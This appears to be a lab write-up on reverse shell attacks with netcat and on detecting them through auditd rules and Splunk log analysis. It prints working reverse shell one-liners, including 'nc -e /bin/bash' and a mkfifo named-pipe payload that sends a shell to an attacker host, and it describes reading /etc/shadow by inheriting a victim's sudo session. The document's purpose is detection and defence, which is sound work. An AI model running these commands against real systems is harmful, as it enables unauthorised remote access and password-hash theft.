








# Reverse Shell Attack — Detection and Log Analysis with Netcat and Auditd

## Overview

A reverse shell is a technique used to gain remote access to a target system. Unlike traditional shell attacks where the attacker connects to the victim, in a reverse shell the victim machine initiates the outbound connection to the attacker's machine.

This approach exploits a common firewall misconfiguration: most firewalls are configured to block inbound connections but do not scrutinize outbound traffic. For example, a reverse shell connection established over port 80 may appear to the firewall as normal web browsing, allowing it to pass undetected. Since the victim initiates the connection, it is classified as outbound traffic and typically goes unchecked.

---

## Tool Used: Netcat

Netcat (`nc`) is a versatile networking utility commonly used in reverse shell attacks. Its capabilities include:

- Port scanning
- Port forwarding
- Proxying
- Opening reverse shell backdoors
- Hosting a lightweight HTTP server

---

## Setting Up the Listener (Attacker Side)

The attacker begins by listening on a specific port for incoming TCP connections. This is done with the following command:

```bash
nc -lvnp <port>
```

**Example:**

```bash
nc -lvnp 4567
```



---

## Initiating the Reverse Shell (Victim Side)

On the victim machine, a payload is executed to initiate the connection back to the attacker. A common method is:

```bash
nc -e /bin/bash <attacker_ip> <port>
```

However, the `-e` flag has been disabled in many modern distributions of Netcat as a security measure, but this can be used if the traditional version(older version) is being used by the system. To bypass this restriction, a named pipe-based payload can be used instead:

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attacker_ip> <port> >/tmp/f
```

This payload works by:

1. Removing any pre-existing `/tmp/f` file
2. Creating a named pipe (FIFO) at `/tmp/f`
3. Piping shell input/output through the named pipe and Netcat to the attacker's IP and port






As seen in the screenshots above, once the connection is established, the victim is unable to interrupt or stop the shell session. The attacker now has interactive access to the victim's shell.

---

## Log Analysis with Auditd

To better monitor and analyze system activity during and after an attack, `auditd` (Linux Audit Daemon) is used. Auditd provides detailed logging of:

- Command and process execution
- Process names and arguments
- User IDs
- Working directories
- System call details

### Configuring Audit Rules

Custom rules are added to `/etc/audit/rules.d/audit.rules` to monitor execution of shells, Netcat, and other relevant binaries.



The rules above monitor:

- All `execve` syscalls (critical for tracking command execution)
- Execution of `bash` and `sh` shells
- Execution of `nc` and `netcat`
- Execution of `socat`
- Execution of Python, Perl, PHP, and Ruby interpreters (commonly used for shell payloads)

To verify that the rules have been loaded correctly, run:

```bash
sudo auditctl -l
```



---

## Observing the Attack in Audit Logs

Once the reverse shell connection is established and commands are executed, the audit logs capture detailed records of each action. The logs include:

- The exact command executed (e.g., `ls`, `whoami`, `nc`)
- All arguments passed to the command
- The working directory at the time of execution
- The user ID (UID) and group ID (GID) of the executing process
- The process ID (PID) and parent process ID (PPID)
- The executable path

These logs can be ingested into a SIEM such as Splunk for easier searching and visualization.



In the screenshot above, the logs clearly show:

- The `nc` command was executed with arguments pointing to the attacker's IP (`10.155.14.121`) and port (`4567`)
- Subsequent commands such as `ls` and `whoami` executed through the shell session are also captured
- All events are tied to the user `dummy` (UID 1000) on the Ubuntu host

---

## Privilege Escalation via Sudo

A critical risk in active reverse shell sessions is unintended privilege escalation. If the legitimate victim user executes a `sudo` command in their own terminal session and authenticates, the attacker operating in the same shell environment can inherit those elevated privileges.

This means the attacker can then run commands with `sudo` without needing to know the password themselves, because the privilege has already been granted in the current session.

**Example scenario observed:**

The attacker attempted to read `/etc/shadow` — a file containing hashed passwords that is accessible only by root:



The `/etc/shadow` file was successfully read after the victim inadvertently granted sudo privileges through their own terminal activity. This gives the attacker access to password hashes for all users on the system.

### Audit Log Evidence of the Privilege Escalation

The audit logs in Splunk confirm the sequence of events. The logs capture:

- An initial failed attempt to read `/etc/shadow` without root privileges
- A subsequent `sudo cat /etc/shadow` command executed successfully
- Associated `execve` syscalls for `sudo`, `cat`, and privilege check utilities (`unix_chkpwd`)



The `execve` events at timestamps around `1:54 PM` clearly show:

- `sudo cat /etc/passwd` and `sudo cat /etc/shadow` being executed
- `unix_chkpwd` being invoked for credential validation
- All actions tied to the `varshith` user account on the Ubuntu host

---

## Summary

This demonstration shows how a reverse shell can bypass basic firewall controls, grant shell access, and even escalate to root privileges if the victim uses sudo 
during an active session — all while leaving clear traces in the audit logs. Enabling `auditd` with targeted rules and forwarding logs to a SIEM like Splunk makes 
these attacks significantly easier to detect and investigate. On the defensive side, outbound traffic should be monitored at the firewall level, tools like `nc` and 
`socat` should be restricted on production systems, and the principle of least privilege should be enforced to limit the scope of impact if a shell session is ever established.
